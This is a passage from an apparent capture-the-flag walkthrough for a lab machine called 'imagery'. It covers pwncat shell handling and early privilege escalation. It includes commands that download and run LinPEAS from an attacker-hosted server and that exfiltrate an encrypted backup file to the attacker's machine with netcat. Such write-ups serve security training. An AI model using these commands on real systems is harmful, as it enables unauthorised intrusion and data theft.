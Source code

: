 **Important:** When you first connect, you'll be at the pwncat **local prompt**:

```bash
(local) pwncat$
```

This is pwncat's command interface on YOUR machine, not the remote shell. To access the actual remote shell on the target, type:

```bash
(local) pwncat$ back
```

Now you'll have access to the remote shell:

```bash
(remote) web@imagery:/home/web/web$
```

**Pwncat Quick Reference:**
- `back` or `Ctrl+D` - Return to the remote shell
- `Ctrl+C` - Return to local pwncat prompt
- `download <remote_file> <local_file>` - Download files from target
- `upload <local_file> <remote_file>` - Upload files to target
- `exit` - Close the connection

🎉 **Initial access achieved as user `web`!**

---

## Privilege Escalation to User

### Step 8: System Enumeration

**Upload and run LinPEAS for automated enumeration:**

```bash
# On your machine
python3 -m http.server 8080

# On target
wget http://10.10.14.74:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Key Finding:** Encrypted backup file discovered!

```
/var/backup/web_20250806_120723.zip.aes
```

### Step 9: File Exfiltration

**Transfer the encrypted file to your attacking machine:**

```bash
# On your attacking machine
nc -lvnp 4445 > web_20250806_120723.zip.aes

# On target machine
nc 10.10.14.74 4445 < /var/backup/web_20250806_120723.zip.aes
```
